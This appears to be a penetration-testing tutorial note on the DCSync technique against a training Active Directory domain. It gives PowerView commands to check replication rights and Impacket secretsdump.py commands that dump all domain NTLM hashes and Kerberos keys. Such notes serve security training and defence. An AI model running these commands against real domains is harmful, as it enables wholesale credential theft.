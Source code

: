 DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

**1.** Use Get-DomainUser to View the users's Group Membership:

```powershell
Get-DomainUser -Identity $userSamAccountName  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

**2.** Check if the user has replication rights:

```powershell
# we obtained the sid from previous command
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.


###  Linux:  Impacket’s secretsdump.py

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# just-dc-user <USERNAME> to only extract data for a specific user
# -pwd-last-set to see when each account's password was last changed
# -history if we want to dump password history
# -user-status flag to check and see if a user is disabled. 

# This will generate 3 files with dumped secrets
```

Another example:

```
# This will use the preinstalled impacket version of our kali
secretsdump.py 'INLANEFREIGHT.LOCAL/$username:$password@$ipDC' -outfile  domainuser.txt
```
